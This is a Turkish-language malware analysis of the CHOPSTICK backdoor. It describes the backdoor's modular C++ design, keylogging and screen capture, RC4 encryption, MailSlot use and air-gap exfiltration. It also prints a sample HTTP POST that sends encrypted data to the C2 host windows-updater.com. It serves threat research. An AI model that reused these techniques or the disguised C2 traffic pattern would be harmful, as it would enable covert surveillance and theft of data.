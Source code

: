 ### **CHOPSTICK**

Metodik ve çalışkan kodlayıcıların eseri. **C++** ile yazılmış, modülerleştirilmiş, **nesne yönelimli** bir çerçeve kullanan, özel işlevsellik ve esneklik sağlayan bir arka kapı. Bu çerçeve, ortak bir kod tabanını paylaşan kötü amaçlı yazılım türevleri arasında çok çeşitli yeteneklere izin veriyor. **CHOPSTICK**, **SMTP** veya **HTTP** kullanarak harici sunucularla iletişim kurabiliyor.

**CHOPSTICK**'in modülerliği, esnek ve dayanıklı platformu, uzun vadeli kullanım ve çok yönlülük için planlandığını gösteriyor. Hedef ortama göre kodlanan zararlı, **eposta sunucuları** gibi yerel ağ kaynaklarını kullanmak üzere hazırlanmış.

Tüm aile **RSA** kullanıyor.

Modülerliğini açacak olursak, gerektiğinde farklı yeteneklere sahip varyantları derlemek için esnek seçeneklere ve çalışma zamanında ek yetenekler dağıtmaya olanak tanıyor. Bu, hedef ortam için özel implantlar hazırlayabilmeyi sağlıyor.

Şu şekillerde veri çıkarıyor.

+ HTTP kullanarak C2 ile iletişim.
+ Eposta sunucusu ile veri (klavye verisi, ofis dokümanları, PGP anahtarları) gönderimi.
+ Airgap ağlardan veri çıkarmak için yerel dizinler, registry ve USB disklere kopyalama.

Çalışma adımları şöyle:

+ Üzerinde çalıştığı sisteme dair verileri topladıktan sonra, bunları `%ALLUSERSPROFILE%` altında geçici bir dosya olarak (**tmp**) tutuyor.
+ **Process**'ler arası veri taşıma mekanizması olan **[Windows MailSlot](https://en.wikipedia.org/wiki/MailSlot)**'u oluşturarak buraya **CHOPSTICK** harici zararlıların elde ettiği verileri **encrypt** ederek yerleştiriyor.
+ Üzerinde çalıştığı sistemdeki kullanıcıların klayve tuşlamalarını (**keylogger**), ekran görüntülerini (**screenlogger**), Windows içeriklerini (metin, context, menu vs.) 500 milisaniyede bir **HTML** benzeri bir formatta kaydediyor.
+ Kayıtlı verileri **RC4**'le **encrypt** ediyor ve geçici bir dosyaya (**tmp**) yazıyor.
+ Çalışmaya başladıktan 60 saniye sonra **C2** sunucusu ile **HTTP** üzerinden iletişime geçerek sunucunun yanıt dönmesini beklemeden verileri yüklüyor, yükleme tamamlanınca yüklediği verileri sistemden siliyor.

Örnek **HTTP POST** isteği:

```
POST /search/?btnG=D-3U5vY&utm=79iNI&ai=NPVUnAZf8FneZ2e_qptjzwH1Q&PG3pt=n-
B9onK2KCi HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.; WOW64; rv:20.0) Gecko/20100101
Firefox/20.0
Host: windows-updater.com
Content-Length: 77
Cache-Control: no-cache
1b2x7F4Rsi8_e4N_sYYpu1m7AJcgN6BzDpQYv1P2piFBLBqghXiHY3SIfe8cUHHYojeXfeyyOhw==
```

## **Rusya'yı İşaret Eden Bulgular**
